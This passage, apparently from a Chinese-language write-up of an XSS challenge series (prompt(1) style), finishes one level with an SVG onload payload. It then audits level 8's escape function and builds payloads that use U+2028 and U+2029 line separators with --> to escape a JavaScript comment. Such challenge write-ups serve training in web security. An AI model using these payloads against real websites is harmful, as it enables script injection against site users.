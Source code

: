 * 添加prompt(1)部分

```
"><svg a='#'onload='/*#*/prompt(1)'
```

* 首先闭合注释，添加prompt，最后闭合单引号。

最终payload:

```
"><svg a='#'onload='/*#*/prompt(1)'
```

## 8

```javascript
function escape(input) {
    input = input.replace(/[\r\n</"]/g, '');
    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}  
```

* 代码审计：

    ​    在第2行的过滤，将这些字符`\r` `\n` `<`  `/` `"`置为空。  
    ​    而且`<script>`下面的那一串给注释掉了。
    
* 因为有注释，所以必须换行，但又不能使用`\r` `\n`
    **[Line Separator](http://codepoints.net/U+2028)** - `U+2028`  行分隔符
    **[Paragraph Separator](http://codepoints.net/U+2029)** - `U+2029`  段分隔符  
    这个用url编码之后，全部弄好了，再在burp里面进行url解码

```
%E2%80%A8prompt(1)
```

* 接下来还需要注释掉后面的`")`，否则JavaScript代码无法正常解析。
    因为过滤掉了`<`  `/` `"`，我们使用`-->`

```
%E2%80%A8prompt(1)%E2%80%A8-->
%E2%80%A9prompt(1)%E2%80%A9-->
```

* 之后使用burp进行转码
